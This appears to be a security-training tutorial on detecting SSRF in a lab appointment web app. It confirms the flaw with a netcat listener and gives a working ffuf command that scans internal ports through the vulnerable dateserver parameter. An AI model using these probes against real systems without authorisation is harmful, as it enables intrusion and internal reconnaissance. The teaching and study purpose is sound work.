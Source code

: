 # Identifying SSRF

After discussing the basics of SSRF vulnerabilities, let us jump right into an example web application.

***

## Confirming SSRF

Looking at the web application, we are greeted with some generic text as well as functionality to schedule appointments:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After checking the availability of a date, we can observe the following request in Burp:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see, the request contains our chosen date and a URL in the parameter `dateserver`. This indicates that the web server fetches the availability information from a separate system determined by the URL passed in this POST parameter.

To confirm an SSRF vulnerability, let us supply a URL pointing to our system to the web application:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In a `netcat` listener, we can receive a connection, thus confirming SSRF:

```shell-session
$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38782
GET /ssrf HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

To determine whether the HTTP response reflects the SSRF response to us, let us point the web application to itself by providing the URL `http://127.0.0.1/index.php`:

<figure><img src="../../../../.gitbook/assets/image (466).png" alt=""><figcaption></figcaption></figure>

Since the response contains the web application's HTML code, the SSRF vulnerability is not blind, i.e., the response is displayed to us.

***

## Enumerating the System

We can use the SSRF vulnerability to conduct a port scan of the system to enumerate running services. To achieve this, we need to be able to infer whether a port is open or not from the response to our SSRF payload. If we supply a port that we assume is closed (such as `81`), the response contains an error message:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This enables us to conduct an internal port scan of the web server through the SSRF vulnerability. We can do this using a fuzzer like `ffuf`. Let us first create a wordlist of the ports we want to scan. In this case, we'll use the first 10,000 ports:

```shell-session
$ seq 1 10000 > ports.txt
```

Afterward, we can fuzz all open ports by filtering out responses containing the error message we have identified earlier.

```shell-session
$ ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"

<SNIP>

[Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 0ms]
    * FUZZ: 3306
[Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 338ms]
    * FUZZ: 80
```

The results show that the web server runs a service on port `3306`, typically used for a SQL database. If the web server ran other internal services, such as internal web applications, we could also identify and access them through the SSRF vulnerability.
